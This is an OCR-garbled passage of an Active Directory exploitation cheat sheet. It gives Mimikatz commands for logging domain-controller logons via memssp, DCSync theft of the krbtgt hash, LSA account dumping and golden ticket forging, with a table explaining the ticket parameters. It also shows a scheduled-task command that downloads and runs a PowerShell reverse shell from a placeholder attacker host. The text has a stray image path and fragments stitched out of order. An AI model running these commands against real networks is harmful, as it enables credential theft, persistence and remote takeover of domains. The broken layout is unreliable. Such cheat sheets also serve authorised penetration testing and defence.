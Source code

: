 #ALTERNATIVE:

Invoke-Mimikatz -Command '"misc::memssp"'

Now all logons on the DC are logged to -> C:\Windows\System32\kiwissp.log https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet

**DCSync feature for getting krbtgt hash**

Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt"'

### ACCOUNT DUMPING

Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername DC01

### GOLDEN TICKET

On any machine

Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:lab.domain.local

/sid:S-1-5-x-x-x-x /krbtgt:00000000000000000000000000000000 id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"' # Execute a task to run the reverse shell script

schtasks /create /S machine.domain.local /SC Weekly /RU "NT Authority\SYSTEM" /TN

"taskname" /TR "powershell.exe -c 'iex(New-Object

Net.WebClient).DownloadString(''http://attackerip/Invoke-PowerShellTcp.ps1''')'" schtasks /Run /S machine.domain.local /TN "taskname"

Golden ticket parameters

| Invoke-Mimikatz -Command | Resume |
| --- | --- |
|  |  |
| kerberos::golden | Name of the module |
|  |  |
| /User:Administrator | Username for which the TGT is generated |
|  |  |
| /domain:lab.domain.local | Domain FQDN |
|  |  |
| /sid:S-1-5-x-x-x-x | SID of the domain |
|  |  |
| /krbtgt:00000000000000000000000000000000 | NTLM (RC4) hash of the krbtgt account. Use /aes128 and /aes256 for using AES keys |
| /id:500 /groups:512 | Optional User RID (default 500) and
Group default 513 512 520 518 519) |
|  |  |
| /ptt or /ticket | Injects the ticket in current PowerShell process - no need to save the ticket on disk - Saves the ticket to a file for later use |
|  |  |
| /startoffset:0 | Optional when the ticket is available (default 0 - right now) in minutes. Use negative for a ticket available from past and a larger number for future |
| Invoke-Mimikatz -Command | Resume |
|  |  |
| /endin:600 | Optional ticket lifetime (default is 10 years) in minutes. The default AD setting is 10 hours = 600 minutes |
|  |  |